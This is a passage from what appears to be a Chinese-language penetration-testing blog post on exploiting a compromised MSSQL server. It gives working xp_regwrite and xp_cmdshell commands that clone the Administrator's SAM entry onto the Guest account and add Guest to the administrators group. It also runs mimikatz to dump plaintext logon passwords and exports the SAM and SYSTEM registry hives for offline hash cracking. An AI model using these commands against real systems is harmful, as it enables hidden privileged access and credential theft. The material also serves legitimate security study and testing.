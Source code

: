 000001F4指的是Administrator，项目F中保存的是一些登录记录，比如上次登录时间、错误登录次数等，还有一个重要的地方就是这个帐号的SID相对标志符，与F对应的还有一个V，其中保存的是帐户的基本资料，用户名、用户全名(full name)、所属组、描述、密码hash、注释、是否可以更改密码、帐户启用、密码设置时间等。。  

2、将刚刚获取的0x…开头的value值赋值给guest账号  
```
exec master..xp_regwrite 'HKEY_LOCAL_MACHINE','SAM\SAM\Domains\Account\Users\000001F5','F','reg_binary',0x......
```
3、启用guest账户并提权  
```
exec master..xp_cmdshell ' net user Guest /active:yes'
exec master..xp_cmdshell 'net localgroup administrators Guest /add'
```
4、使用Guest进行远程桌面登录  


### \#0x04 下载mimikatz等获取Administrator明文口令
这种方法有两个限制：  
1、通过xp_cmdshell可以下载mimikatz到目标机或上传mimikatz到目标机器（使用xp_cmdshell上传或下载见0x06）  
2、近期用户登录过系统，可以通过mimikatz获取Administrator的明文口令  
上传mimikatz到目标机之后，通过xp_cmdshell运行mimikatz，执行命令为：  
```
exec master..xp_cmdshell 'c:\mimikatz.exe ""privilege::debug"" ""log sekurlsa::logonpasswords full"" exit && dir'
```
![](https://github.com/PythonPig/PythonPig.github.io/blob/master/images/mssql%E5%BC%B1%E5%8F%A3%E4%BB%A4%E5%88%A9%E7%94%A8/mimikatz.jpeg?raw=true)

### \#0x05 获取注册表中用户的hash，本地破解  
这种方法有一个限制：可以从目标机器上下载文件到本地。  

1、导出目标机器上注册表信息到文件，在本地执行以下命令：  
```
exec master..xp_cmdshell 'C:\Windows\system32\reg.exe save hklm\sam c:\sam.hive'
exec master..xp_cmdshell 'C:\Windows\system32\reg.exe save hklm\system c:\system.hive'
```  